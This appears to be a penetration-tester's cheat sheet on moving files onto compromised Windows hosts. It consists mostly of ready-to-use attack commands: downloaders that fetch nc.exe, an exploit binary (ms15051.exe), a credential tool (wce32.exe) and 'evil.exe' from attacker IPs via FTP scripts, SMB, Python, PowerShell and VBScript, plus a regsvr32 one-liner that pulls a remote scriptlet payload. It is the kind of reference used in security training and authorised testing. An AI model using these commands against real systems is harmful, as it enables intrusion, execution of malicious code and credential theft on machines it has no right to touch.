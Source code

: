 # File Transfers

### Python webserver host

`python3 -m http.server 80`

`python -m SimpleHTTPServer 80`

### Python ftp host

`python -m pyftpdlib -p 21`

### FTP non-interactive

`echo open 10.11.14.32 21> ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET ms15051.exe>> ftp.txt echo bye>> ftp.txt ftp -v -n -s:ftp.txt`

## SMB Server \(Impacket\) 

```bash
# mount current directory `.` to smb share name `a`
smbserver.py a .

# to copy eg. in windows
copy \\192.168.1.100\a\wce32.exe .

# execute exe using smb share
\\192.168.1.100\a\whoami.exe
```

## Python file transfer

`c:\python26\python.exe -c "from urllib import urlretrieve; urlretrieve('`[`http://10.11.0.69/nc.exe`](http://10.11.0.69/nc.exe)`', 'C:\Inetpub\wwwroot\nc.exe')"`

### Windows Server 1-liner

`regsvr32 /u /n /s /i:`[`http://192.168.1.10:443/payload.sct`](http://ip:port/payload.sct) `scrobj.dll`

## Powershell wget script

```bash
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1 
echo $file = "new-exploit.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

### VB downloader script

```bash
#Windows downloader script using VB
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# To Download using script
cscript wget.vbs http://10.11.0.5/37.exe evil.exe
```

### Apache Webserver

```bash
# Edit port used 'Listen <Port>'
vim /etc/apache2/ports.conf

# Create folder to share
mkdir /var/www/html/share

#chmod
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share

#move file to webserver root
mv /root/Desktop/evil.exe /var/www/html/share

#start 
service apache2 start
```

## TFTP/PureFTP

```bash
#Apache Webserver 
#(to edit listen port) 
vim /etc/apache2/ports.conf
Listen 8090

mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
mv /root/Desktop/Test.exe /var/www/html/share
service apache2 start



#PURE FTP
#Setting up pure ftpd
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/

#changing ftpd password
/etc/init.d/pure-ftpd restart
pure-pw passwd offsec -f /etc/pure-ftpd/pureftpd.passwd
pure-pw mkdb
/etc/init.d/pure-ftpd restart
```

